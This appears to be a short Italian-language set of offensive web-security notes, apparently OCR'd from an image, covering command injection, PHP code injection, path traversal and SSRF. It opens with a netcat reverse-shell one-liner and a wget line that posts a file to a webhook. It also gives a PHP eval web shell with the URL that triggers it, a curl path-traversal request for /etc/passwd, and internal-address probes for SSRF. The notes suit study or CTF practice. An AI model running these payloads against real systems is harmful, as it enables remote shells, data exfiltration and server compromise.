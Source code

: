     nc -e /bin/bash host port #reverse shell (mi ci connetto con nc)
    wget  --post-file <file> http://webhook... #con command injection
    			--post-data <stringa_dati>

WEB SECURITY

*   **Command Injection - PHP Code Injection**
    
    *   **Command Injection**
        
            #codice generalmente PHP che esegue senza sanificazione
            #si aggiungono comandi separando con
            ";" , "\n", operatori logici, &&, ||
            
            #metodi per verificare che ci sia:
            sleep(5) #temporizzo per vedere se attende
        
    
    *   **PHP Code Injection**
        
            #Metodi:
            
            #inclusione file infetto caricato da me 
            #(es. logs con errore voluto con un errore voluto <?php ... ?>
            include ‘path/to/file’; 
            
            #Può capitare che posso inserire direttamente il codice
            <?php eval($_GET['c']); ?>
            #Per attivarla è sufficiente visitare il sito passandogli c come arg
            https://link/applicazione.php?c=phpinfo();
        
    

*   **File Disclosure - Path Traversal - Server Side Request Forgery (SSRF)**
    
    *   **File Disclosure con path traversal**
        
            #Funzione PHP open($url) #in sql injection
            open($input + '/file') #rubiamo un file pubblico
            
            #Con curl - sempre passando con php il valore dello static file
            curl http://link/static.php?static_file=/../../../../etc/passwd
            
        
    
    *   **SSRF**
        
        **Per trovare un SSRF**
        
        *   cerco URL sospetti
        
        *   A questo punto devi provare ad inserire hostnames interni come “**localhost**” o “**192.168.1.1**” o “**10.0.0.1**” e così via esaminando la risposta.
    
        https://localhost/filecercato #questo inserito in input al server viene letto come se la richiesta venisse da lui
        #alternativamente provo
        # 192.168.1.1
        # 10.0.0.1
    